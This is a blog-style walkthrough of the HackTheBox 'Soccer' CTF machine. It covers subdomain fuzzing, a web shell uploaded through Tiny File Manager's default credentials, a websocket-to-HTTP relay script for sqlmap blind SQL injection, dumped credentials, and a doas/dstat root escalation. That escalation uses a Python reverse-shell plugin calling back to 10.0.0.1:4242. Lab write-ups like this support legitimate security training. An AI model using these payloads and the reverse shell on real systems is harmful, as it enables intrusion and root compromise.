 ```yaml
---
layout: post
title: Soccer

date: 2023-01-01 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [web, wfuzz, websocket, http server, doas, dstat, linux]
---
```


Starting with nmap scans we have a few open ports 22 ssh and port 80 webserver that we need to add to /etc/hosts soccer.htb.

start enumerating the host scanning for subdomains with wfuzz and subdirectories with feroxbuster

- `wfuzz -c -w /usr/share/seclists/Discovers/DNS/bitquard-subdomains-top100000.txt - 'http://soccer.htb' -H "Host: FUZZ.soccer.htb" --hc 301,302`
- `feroxbuster -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php`

During scans we find a "<a href="https://tinyfilemanager.github.io/">Tiny File Manager</a>" 

Checking the github the default credentials do work, we can upload a shell here?

`/var/www/html/tiny/uploads` has permissions to upload and we get a callback as www-data after setting up a listener.

during a linpeas scan we end up finding `soc-player.soccer.htb` which is another site with a login...

Checking the source on the /check page wqe find a websocket. I've literally never had to deal with or know how to deal with this but I found some help? https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh

```
curl -i -s -k -X $'GET' \
    -H $'Host: soc-player.soccer.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Referer: http://soc-player.soccer.htb/check' -H $'Upgrade-Insecure-Requests: 1' -H $'If-None-Match: W/\"12e9-jepY6GiJmK+3NHavK46gs9vINZM\"' \
    -b $'connect.sid=s%3AKI5S00CPO6HI-LF23kQn6GqHwWQxa2Nh.ljAb1hQUlzyU6qz4iPBlLwBKc5n4UNxapAIi%2Fhb0%2Bik' \
    $'http://soc-player.soccer.htb/check'
```

Inspecting the check page we find a websocket

```
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
```

read more about exploiting this <a href="https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html">here</a>.

We start off by hosting a http.server that will connect to the websocket so we can send through requests to dump the database.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

- run sqlmap and dump the database `sqlmap -u "http://localhost:8081/?id=1" --batch --dbs`

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

- dump the soccer_db `sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --dump`

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

- login via ssh

- `find / -type f -perm -u=s 2>/dev/null`

We see doas here. check the config for doas

- `find / -name *doas* 2>/dev/null`

`permit nopass player as root cmd /usr/bin/dstat`

this mean we can use doas to execute dstat as root 

dstat is a tool for generating system resouce statustics it allows users to create custom plugins and execute them by adding the `--myplugin` options.

find the stat directory

- `find / -type d -name dstat 2>/dev/null`

create a plugin in the directory

```
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

dstat will recognize pluds under this directory. we can check if the plugin has been added by executing `dstat --list | grep oskar`

after setting up a listener we recieve a root shell.


    

